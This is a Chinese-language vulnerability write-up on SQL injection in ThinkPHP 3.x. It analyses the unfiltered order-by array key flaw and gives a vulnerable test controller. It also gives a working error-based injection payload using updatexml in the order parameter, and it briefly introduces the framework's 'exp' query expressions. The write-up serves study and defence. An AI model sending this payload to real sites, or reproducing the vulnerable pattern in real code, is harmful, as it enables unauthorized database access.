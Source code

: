 ##### ThinkPHP 3.X order by 注入漏洞

###### 漏洞分析

ThinkPHP 在处理 order by 排序时，当排序参数可控且为关联数组 (key-value) 时，

由于框架未对数组中 key 值作安全过滤处理，攻击者可利用 key 构造 SQL 语句进行注入，该漏洞影响 ThinkPHP 3.2.3、5.1.22 及以下版本。

ThinkPHP3.2.3 漏洞代码（/Library/Think/Db/Driver.class.php）：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1sh3Cc8RB5hCakyKLA8hjN3eaxM4fORZsBesZ6RK9qU5CqkqDIIUibPg/640?wx_fmt=png)  
从上面漏洞代码可以看出，当 $field 参数为关联数组（key-value）时，key 值拼接到返回值中，SQL 语句最终绕过了框架安全过滤得以执行。

###### 漏洞复现

测试代码

```
<?php
namespace Home\Controller;
use Think\Controller;
 class IndexController extends Controller{
  public function index(){
      $data=array();
      $data['username']=array('eq','admin');
      $order=I('get.order');
      $m=M('user')->where($data)->order($order)->find();
      dump($m);
   }
 }
```

构造 poc：?order[updatexml(1,concat(0x3e,user()),1)]=1

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1Tmf4WTGQtfNrFa8fpQfwQOvE3ljxnpFlyd0Pc6J5lM1nILHTGBggTA/640?wx_fmt=png)

##### thinkphp3.x exp 注入漏洞

EXP 表达式支持 SQL 语法查询 sql 注入非常容易产生。

```
$map['id']  = array('in','1,3,8');
```

可以改成：

```
$map['id']  = array('exp',' IN (1,3,8) ');
```

exp 查询的条件不会被当成字符串，所以后面的查询条件可以使用任何 SQL 支持的语法，包括使用函数和字段名称。

查询表达式不仅可用于查询条件，也可以用于数据更新。

```
$User = M("User"); // 实例化User对象
// 要修改的数据对象属性赋值
$data['name'] = 'ThinkPHP';
$data['score'] = array('exp','score+1');// 用户的积分加1
$User->where('id=5')->save($data); // 根据条件保存修改的数据
```
